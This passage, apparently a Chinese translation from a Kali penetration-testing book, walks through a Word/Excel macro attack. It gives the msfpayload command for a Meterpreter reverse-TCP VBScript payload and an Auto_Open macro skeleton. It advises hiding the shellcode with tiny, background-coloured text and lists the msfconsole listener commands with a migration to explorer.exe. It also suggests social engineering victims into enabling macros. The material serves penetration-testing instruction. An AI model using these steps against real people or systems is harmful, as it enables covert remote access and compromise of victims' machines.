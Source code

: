要使用 VBScript 发动攻击，我们将从命令行调用 Metasploit 的`msfpayload`。

```
root@kali:~# msfpayload windows/meterpreter/reverse_tcp
  LHOST=[Your local Host] LPORT= [Your Local Port] V 

```

注意`V`表示输出将是一个 VBS 宏脚本。输出将显示为一个具有两个特定部分的文本文件，如下面的屏幕截图所示：

![使用 VBScript 进行攻击](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/ms-kali-adv-pentest/img/3121OS_11_01.jpg)

要使用脚本，打开 Microsoft Office 文档并创建一个宏（具体命令将取决于所使用的 Microsoft Windows 版本）。将以下信息框中给出的文本的第一部分（从`Sub Auto_Open()`到最后的`End Sub`）复制到宏编辑器中，并保存为启用宏。

```
'**************************************************************
'*
'* MACRO CODE
'*
'**************************************************************

Sub Auto_Open()
    Ffqsm12
    End Sub

// Additional code removed for clarity

Sub Workbook_Open()
    Auto_Open
End Sub
```

接下来，将 Shellcode 复制到实际文档中。Shellcode 的部分摘录如下屏幕截图所示：

![使用 VBScript 进行攻击](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/ms-kali-adv-pentest/img/3121OS_11_02.jpg)

Shellcode 可识别为可用于执行攻击的脚本，因此您可能希望通过减小字体大小并使颜色与文档的背景匹配来隐藏或混淆 Shellcode。

攻击者必须在 Metasploit 上设置监听器。在命令提示符下输入`msfconsole`后，攻击者通常会输入以下命令，并设置主机、端口和有效载荷的选项；此外，攻击者还将配置连接自动迁移到更稳定的`explorer.exe`进程，如下面的命令行所示。

```
msf>use exploit/multi/handler 
msf>set lhost 192.168.43.130
msf>set lport 4444
msf>set payload windows/meterpreter/reverse_tcp
msf>set autorunscript migrate -n explorer.exe
msf >exploit 

```

当文件发送到目标时，打开时会弹出一个安全警告；因此，攻击者将使用社会工程学来迫使预期的受害者选择**启用**选项。最常见的方法之一是将宏嵌入已配置为玩游戏的 Microsoft Word 文档或 Excel 电子表格中。

打开文档将创建一个反向 TCP shell 返回给攻击者，允许攻击者确保与目标的持久连接并进行后期利用活动。
